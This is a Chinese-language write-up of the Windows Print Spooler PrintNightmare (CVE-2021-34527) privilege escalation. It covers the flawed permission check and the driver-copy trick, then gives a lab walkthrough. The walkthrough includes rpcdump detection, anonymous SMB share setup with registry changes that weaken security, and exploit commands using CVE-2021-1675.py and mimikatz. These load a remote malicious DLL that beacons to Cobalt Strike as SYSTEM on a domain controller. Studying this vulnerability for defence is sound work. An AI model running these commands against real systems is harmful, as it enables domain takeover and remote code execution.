









# Windows Print Spooler 权限提升 漏洞 PrintNightmare

## 漏洞概述

本文所说的漏洞是 CVE-2021-34527(PrintNightmare)漏洞.

## 漏洞原理

Print Spooler 是 Windows 系统中用于管理打印相关事务的服务，在Windows 系统中用于后台执行打印作业并处理与打印机的交互，该服务管理所有本地和网络打印队列及控制所有打印工作。该服务对应的进程 `spoolsv.exe` 以SYSTEM 权限执行。其设计中存在的一个严重缺陷，由于 `SeLoadDriverPrivilege`中鉴权存在代码缺陷，参数可以被攻击者控制，普通用户可以通过 RPC 触发`RpcAddPrinterDrive` 绕过安全检查并写入恶意驱动程序。如果域控存在此漏洞，域中普通用户即可通过远程连接域控 Spooler 服务，向域控中添加恶意驱动，从而控制整个域环境。

如图所示，可以看到 spoolsv.exe 进程默认是运行着。



如图所示，可以看到 spoolsv.exe 进程对应的 Spooler 服务。



### 1.漏洞成因分析

漏洞产生的根本原因如图所示 IDA 伪代码：



`ValiadteObjectAccess` 是打印机服务用来进行管理员权限检查的函数，但在调用该函数进行权限检查之前，打印机服务会首先检查用户传入的 a4 的值，当该值满足：`_bittest(&a4,0xf) == 0` 时，权限检查函数将不会被调用，由此攻击者可以以普通用户身份加载恶意打印机驱动。

### 2.漏洞利用分析

在绕过安全检查之后，该函数将会解析我们传入的` DRIVER_INFO_2` 函数，该函数的定义如图所示。



这里我们将重点关注以下三个参数，并将他们命名为 A B C，方便我们后续的分析。

pConfigFile = A
pDataFile = B
pDriverPath = C

通过对函数` RpcAddPrinterDriver` 的逆向分析，我们可以对其添加打印机驱动的行为进行一个简略总结。首先打印机服务会将 A B C 三个文件全部拷入`C:\Windows\System32\spool\drivers\x64\3\new` 目录下，随后再次将他们拷贝至 `C:\Windows\System32\spool\drivers\x64\3` 目录下，然后将会加载`C:\Windows\System32\spool\drivers\x64\3\A `和`C:\Windows\System32\spool\drivers\x64\3\C`，如果攻击者能控制 A 和 C，那么就能轻易实现代码执行。但事实上，打印机服务会调用 `ValidateDriverInfo` 函数对用户传入的驱动信息进行检查，该函数限制了 A C 必须是位于本地计算机的文件，但没有检查 B 文件是否为本地文件。同时打印机服务会对 C 的文件完整性进行校验，确保其是一个合法的打印机驱动文件，因此我们无法将其简单的设置为任意的 DLL 文件，但该文件不会对漏洞利用产生影响，我们只需要简单的将其设置为本机上的一个合法打印机驱动文件即可，`C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_19a3fe50fa9a21b6\Amd64\UNIDRV.DLL` 便是一个合法的例子。

一个显而易见的利用思路为调用两次 `RpcAddPrinterDriver`：

-  第一次调用时，使用 UNC 路径指定 B 为远程计算机上的文件，如`\10.211.55.7\share\Evil.dll`。Evil.dll 将会被拷贝至`C:\Windows\System32\spool\drivers\x64\3\Evil.dll`。
-  第二次调用时，指定 A 为`C:\Windows\System32\spool\drivers\x64\3\Evil.dll`。
-  理论上，`C:\Windows\System32\spool\drivers\x64\3\Evil.dll` 将会被加载。

但事实上，该利用思路在会第二次调用 RpcAddPrinterDriver 产生一个访问冲突的错误，RpcAddPrinterDriver 会将用户传入的 DLL 文件进行两次拷贝，该过程可以用如下表示：

A :` C:\Windows\System32\spool\drivers\x64\3\Evil.dll`
B : `XXX.DLL`
C : `C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_19a3fe50fa9a21b6\Amd64\UNIDRV.DLL`

第一次拷贝
`CopyFile( C:\Windows\System32\spool\drivers\x64\3\Evil.dll , C:\Windows\System32\spool\drivers\x64\3\new\Evil.dll )`
第二次拷贝
`CopyFile( C:\Windows\System32\spool\drivers\x64\3\Evil.dll , C:\Windows\System32\spool\drivers\x64\3\Evil.dll )`

可以发现当 A.dll 第二次被拷贝时，会产生拷贝的源文件与目标文件相同的情况，这将导致两次打开文件句柄的操作作用于相同文件，第一次以读权限，第二次以写权限，这将产生一个访问冲突的问题，导致利用失败，同理当 A 被指定为`C:\Windows\System32\spool\drivers\x64\3\new\Evil.dll `时，也会在第一次拷贝时产生访问冲突的问题。

为了解决这一问题，攻击者必须将 A 或 C 指定为`C:\Windows\System32\spool\drivers\x64\3`和`C:\Windows\System32\spool\drivers\x64\3\New` 目录之外的文件。在对打印机的行为监控时，我们观察到每当新的打印机驱动文件被添加时，打印机服务会对新添加的打印机驱动文件进行备份，将其拷贝至`C:\Windows\System32\spool\drivers\x64\3\old*`目录下，`*`为一个数字。因此，我们可以改进上述的利用步骤，在第二次调用 RpcAddPrinterDriver 时，指定A 为` C:\Windows\System32\spool\drivers\x64\3\old*\Evil.dll`，如此便可以实现远程任意代码执行。

## 漏洞利用

实验环境如下：

• 域控 Server 2019：10.211.55.14
• Windows 匿名共享主机：10.211.55.7
• 域内有效普通域用户：xie\hack P@ss1234

### 1. 检测是否存在漏洞

使用 rpcdump.py 脚本执行如下命令检测目标机器是否开启 MS-RPRN 服务，存在即可以尝试利用：

```
python3 rpcdump.py @10.211.55.14 | grep MS-RPRN
```

如图所示，可以看到目标 10.211.55.14 开启了 MS-RPRN 服务。



### 2.创建匿名 SMB 共享

探测到目标开启了 MS-RPRN 服务后，就可以开始后续的利用了。首先得搭建一个匿名的 SMB 共享，在该匿名共享中放入我们制作的 1.dll 恶意文件，1.dll 恶意文件的功能是上线 CobaltStrike。

#### （1）Linux 创建匿名共享

Linux 下创建匿名共享的话需要安装 smbd 服务，Kali 默认安装，我们这里以Kali 为例。

然后修改 SMB 配置文件`/etc/samba/smb.conf`，修改为如下：

```
[global]
map to guest = Bad User
server role = standalone server
usershare allow guests = yes
idmap config * : backend = tdb
smb ports = 445

[smb]
comment = Samba
path = /tmp/
guest ok = yes
read only = no
browsable = yes
```

接着将 1.dll 恶意文件放在 tmp 目录下，然后运行如下命令启动 SMB 服务。

```
#启动 smb 服务
service smbd start

#查看 smb 服务状态
service smbd status
```

如图所示，成功启动 SMB 服务。SMB 服务启动后，共享路径为：`\Linux 机器 ip\smb\1.dll`



#### （2）Windows 创建匿名共享

接下来演示在 Windows 环境下创建匿名共享。在 Windows 机器 10.211.55.7上以管理员权限运行 cmd，然后执行如下命令。该命令会在 C 盘下创建一个名为share 的共享文件夹。

```
mkdir C:\share
```

接着，往刚刚创建的 share 目录下放入恶意的 1.dll 文件，再执行如下命令。这些命令会创建一个名为 share 的共享文件夹，共享路径是 C:\share，并且允许其匿名登录。

注：切记切记！！顺序不能错，一定是先将 1.dll 传入 C:\share 目录之后，执行如下命令。

```
icacls C:\share\ /T /grant "ANONYMOUS LOGON":r
icacls C:\share\ /T /grant Everyone:r
powershell.exe New-SmbShare -Path C:\share -Name share -ReadAccess 'ANONYMOUS LOGON','Everyone'
REG ADD "HKLM\System\CurrentControlSet\Services\LanManServer\Parameters" /v NullSessionPipes /t REG_MULTI_SZ /d srvsvc /f
REG ADD "HKLM\System\CurrentControlSet\Services\LanManServer\Parameters" /v NullSessionShares /t REG_MULTI_SZ /d share /f
REG ADD "HKLM\System\CurrentControlSet\Control\Lsa" /v EveryoneIncludesAnonymous /t REG_DWORD /d 1 /f
REG ADD "HKLM\System\CurrentControlSet\Control\Lsa" /v RestrictAnonymous /t
REG_DWORD /d 0 /f
```

如图所示，命令执行成功，成功创建一个名为 share 的共享文件夹，共享路径是 C:\share，并且允许其匿名登录。



但是有些机器，如 Win7、Server2008 等执行如下 powershell 语句会报错。

```
powershell.exe New-SmbShare -Path C:\share -Name share -ReadAccess 'ANONYMOUS LOGON','Everyone
```

对于执行 powershell 语句报错的机器，则需要 RDP 登录到目标机器，执行如下一些操作。

找到 C:\share 目录，右键—>属性，找到共享框，然后将 Everyone 添加进去，点击共享即可：



注：创建匿名共享的 Windows 服务器不需要在域内，但是该机器的防火墙需开放 445 端口！

### 3.漏洞利用

创建完匿名共享后，就可以进行漏洞利用了。如下演示使用 python 脚本和mimikatz 进行漏洞利用，匿名共享的路径是\10.211.55.7\share\1.dll。

#### （1）使用 python 脚本攻击

使用 CVE-2021-1675.py 脚本执行如下命令进行漏洞利用，漏洞利用完成后会将我们的恶意 dll 文件上传到目标机器的`C:\Windows\System32\spool\drivers\x64\3`目录下并执行。

```
python3 CVE-2021-1675.py xie.com/test:P@ss1234@10.211.55.14 '\\10.211.55.7\share\1.dll'
```

如图所示，可以看到漏洞利用完成后，即可看到目标机器 10.211.55.14 上线，并且上线的进程是 spoolsv.exe 打印机服务的进程。



#### （2）使用 mimikatz 攻击

使用 mimikatz 执行如下命令进行漏洞利用，漏洞利用完成后会将我们的恶意dll 文件上传到目标机器的 `C:\Windows\System32\spool\drivers\x64\3\old\2`目录下并执行。

```
mimikatz.exe "misc::printnightmare /server:10.211.55.14 /library:\\10.211.55.7\share\1.dll"
```